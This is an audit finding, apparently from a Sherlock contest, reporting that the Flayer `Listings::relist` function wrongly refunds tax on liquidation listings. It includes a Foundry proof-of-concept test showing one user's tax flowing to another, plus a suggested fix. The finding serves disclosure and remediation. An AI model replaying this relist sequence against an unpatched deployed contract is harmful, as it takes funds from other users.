 Wobbly Neon Hyena

High

# `Listings::relist` wrongly resolves the listings tax for liquidation listings, allowing users to steal other users' paid tax

### Summary

When users create a normal listing in the `Listings` contract, they pay some tax, this tax is kept in the `Listings` contract until the listing is filled/re-listed/canceled, where part of this tax is refunded to the listing's owner and the other part is sent as fees to the implementation contract, this is handled in `Listings::_resolveListingTax`.

On the other hand, when users create a protected listing and don't unlock in time, users can liquidate that position by calling `ProtectedListings::liquidateProtectedListing`, where a new non-protected listing is created in the `Listings` contract, the important point here is that no tax was paid to create this listing.

However, when someone tries to re-list this liquidation listing, the protocol will call to resolve the paid tax:
```solidity
(uint256 _fees, ) = _resolveListingTax(oldListing, _collection, true);
if (_fees != 0) {
    emit ListingFeeCaptured(_collection, _tokenId, _fees);
}
```
Again, no tax was paid to create this listing.

This will use others' paid taxes to send implementation fees and to refund the initial protected listing's owner with money that he didn't even pay.

### Root Cause

`Listings::relist` function doesn't check if the listing is a liquidation listing before resolving tax, [here](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625-L672).

### Impact

Users who have their protected listings liquidated will get refunded some of the tax paid by other users having active non-protected listings.

### PoC

Add the following test in `flayer/test/ProtectedListings.t.sol`:

```solidity
function test_WrongTaxResolveLiquidation() public {
    ICollectionToken collectionToken = ICollectionToken(
        locker.collectionToken(address(erc721a))
    );

    deal(address(collectionToken), address(this), 4 ether);

    address payable bob = payable(address(0x1));
    uint256 bobTokenId = 0;
    erc721a.mint(bob, bobTokenId);

    address payable alice = payable(address(0x2));
    uint256 aliceTokenId = 1;
    erc721a.mint(alice, aliceTokenId);

    // Bob creates a protected listing
    vm.startPrank(bob);
    erc721a.approve(address(protectedListings), bobTokenId);
    _createProtectedListing({
        _listing: IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(bobTokenId),
            listing: IProtectedListings.ProtectedListing({
                owner: bob,
                tokenTaken: 0.95 ether,
                checkpoint: 0
            })
        })
    });
    vm.stopPrank();

    // Alice creates a normal listing
    vm.startPrank(alice);
    erc721a.approve(address(listings), aliceTokenId);
    _createListing(
        IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(aliceTokenId),
            listing: IListings.Listing({
                owner: alice,
                created: uint40(block.timestamp),
                duration: 5 days,
                floorMultiple: 200
            })
        })
    );
    vm.stopPrank();

    vm.warp(block.timestamp + 1 days);

    // Bob's listing is liquidatable
    assertLt(
        protectedListings.getProtectedListingHealth(address(erc721a), bobTokenId),
        0
    );

    // Bob's listing is liquidated
    protectedListings.liquidateProtectedListing(
        address(erc721a),
        bobTokenId
    );

    vm.warp(block.timestamp + 1 days);

    // Bob's liquidated position is relisted
    collectionToken.approve(address(listings), type(uint256).max);
    listings.relist(
        IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(bobTokenId),
            listing: IListings.Listing({
                owner: payable(address(this)),
                created: uint40(block.timestamp),
                duration: 10 days,
                floorMultiple: 120
            })
        }),
        false
    );

    // Bob's gained some refund from the tax paid by Alice
    assertGt(listings.balances(bob, address(collectionToken)), 0);
}
```

### Mitigation

In `Listings::relist`, check if the listing is "liquidated" before resolving the listings tax, by adding something similar to:
```solidity
if (!_isLiquidation[_collection][_tokenId]) {
    // We can process a tax refund for the existing listing
    (uint256 _fees, ) = _resolveListingTax(
        oldListing,
        _collection,
        true
    );
    if (_fees != 0) {
        emit ListingFeeCaptured(_collection, _tokenId, _fees);
    }
}
```